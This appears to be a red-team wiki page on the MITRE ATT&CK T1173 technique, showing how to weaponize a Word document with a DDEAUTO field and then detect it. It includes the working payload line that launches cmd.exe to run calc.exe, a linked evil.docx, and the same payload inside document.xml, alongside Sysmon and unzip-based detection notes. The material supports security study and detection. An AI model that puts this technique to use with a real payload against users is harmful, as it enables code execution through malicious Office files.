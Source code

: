 ```yaml
---
description: Dynamic Data Exchange code - executing code in Microsoft Office documents.
---
```


# T1173: DDE

## Weaponization

Open a new MS Word Document and insert a field:

![](../.gitbook/assets/dde-insert-field.png)

It will add an `!Unexpected End of Formula`to the document, that is expected. Right click it &gt; Toggle Field Codes:

![](../.gitbook/assets/dde-toggle-code.png)

Toggle Field Codes will give this:

![](../.gitbook/assets/dde-merge.png)

Replace `= \* MERGEFORMAT` with payload and save the doc:

```bash
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" 
```

to get this:

![](../.gitbook/assets/dde-payload.png)

{% file src="../.gitbook/assets/evil.docx" caption="DDE: evil.docx" %}

## Execution

Launch the evil .docx by double-clicking it and accepting the 2 prompts and watch the calc get spawned:

![](../.gitbook/assets/dde-prompt1.png)

![](../.gitbook/assets/dde-prompt2.png)

## Observations

![](../.gitbook/assets/dde-procexp.png)

Sysmon logs can help spot suspicious processes and/or network connections being initiated by Office applications:

![3rd and 4th columns respectively: PID and PPID](../.gitbook/assets/dde-sysmon.png)

## Inspection

How can we inspect .docx \(same for .xlsx\) files? Since they are essentially .zip archives, we can rename the .docx file to .zip and simply extract the archive for further inspection. 

The file we are interested in is the `document.xml` \(trimmed for brevity below\). Note how line 4 allows us inspecting the DDE payload:

{% code-tabs %}
{% code-tabs-item title="document.xml" %}
```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:cx="http://schemas.microsoft.com/office/drawing/2014/chartex" xmlns:cx1="http://schemas.microsoft.com/office/drawing/2015/9/8/chartex" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:w15="http://schemas.microsoft.com/office/word/2012/wordml" xmlns:w16se="http://schemas.microsoft.com/office/word/2015/wordml/symex" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 w15 w16se wp14">
<...snip...>
      <w:instrText>DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"</w:instrText>
<...snip...>
</w:document>

```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1173\",\"type\":\"link\",\"title\":\"Dynamic Data Exchange - ATT&CK for Enterprise\"}" %}






